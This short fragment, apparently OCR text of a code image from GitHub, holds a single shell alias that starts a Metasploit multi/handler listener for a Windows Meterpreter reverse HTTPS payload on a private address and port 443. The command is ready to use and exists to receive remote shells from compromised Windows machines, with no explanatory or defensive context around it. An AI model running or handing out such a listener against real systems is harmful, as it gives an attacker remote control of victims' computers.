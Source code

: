 alias listener='msfconsole -q -x \"use exploit/multi/handler; set payload windows/meterpreter/reverse_https; set LHOST 192.168.0.105; set LPORT 443; exploit\"'
